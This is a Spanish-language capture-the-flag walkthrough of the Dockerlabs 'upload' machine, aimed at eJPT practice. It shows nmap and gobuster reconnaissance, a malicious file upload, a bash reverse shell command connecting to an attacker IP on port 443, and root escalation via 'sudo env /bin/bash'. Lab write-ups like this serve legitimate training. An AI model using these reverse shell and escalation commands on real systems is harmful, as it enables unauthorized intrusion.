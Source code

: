 Máquina upload

Iniciamos como siempre con la rutina de reconocimiento de nmap:

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN Target
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 18:13 CEST
Initiating ARP Ping Scan at 18:13
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 18:13, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 18:13
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 18:13, 0.78s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-04-18 18:13:57 CEST for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

```
nmap -p80 -sCV --min-rate 5000 172.17.0.2 -oN TargetsCV   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 18:14 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Upload here your file
```

Bueno en nmap no vemos casi nada raro simplemente un página web, vamos a verla

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/5933723f-eead-4ce9-bb5c-77e7b3ff5449)

Bueno teniendo en cuenta que es una máquina facil, pues viendo esta captura ya podemos pensar en una subida de arhivos maliciosa,
para complicarlo un pelin, no vamos a utilizar el script básico de monkey, crearemos nosotros mismos el archivo malicioso, pero antes
de hacer nada hay que saber donde esta la ruta donde podemos ejecutar el archivo una vez subido, para eso vamos a fuzzear un poquito:

```
gobuster dir -u "http://172.17.0.2" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/server-status        (Status: 403) [Size: 275]
Progress: 116848 / 207644 (56.27%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 121522 / 207644 (58.52%)
===============================================================
Finished
===============================================================
```

Pues bueno ya estaría, supongo que se guardara también con el nombre que le pongamos así que vamos a crear el archivo malicioso:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/4dbeffcd-4e1f-4e85-a8c4-bcace653ff2e)

Bueno ya tenemos ejecución remota de comandos, ahora la reverse shell:

```
bash -c "bash -i >%26 /dev/tcp/192.168.1.37/443 0>%261" # nc -nlvp 443
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/1a06caeb-5703-4164-9a08-da5d8fb84b99)

Una vez entablada la reverse shell hacemos tratamiento de la tty:

```
script /dev/null -c bash
{ctrl+z}
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Bueno para la escalada de privilegios empezamos por sudo -l en el cual ya nos encontramos con algo:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/6e3c4c9f-8bdf-4904-abf9-6d66c2cba6be)

Esto lo que esta haciendo es que podemos ejecutar el comando env con privilegios, esto se explota de la siguiente manera:

```
sudo env /bin/bash
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/bdb7e0b1-cad5-496f-82ee-3f15e00d9cdf)

Teniendo en cuenta que estas máquinas van relacionadas para entrenar para el certificado eJPT esta bien ya que podemos entrenar la subida de archivos,
lo cual es esencial en el hacking ademas de poder crear el nuestro y una escalada facil pero efectiva en los estudios para la eJPT.

Dificultad 1/5
Diversión 4/5
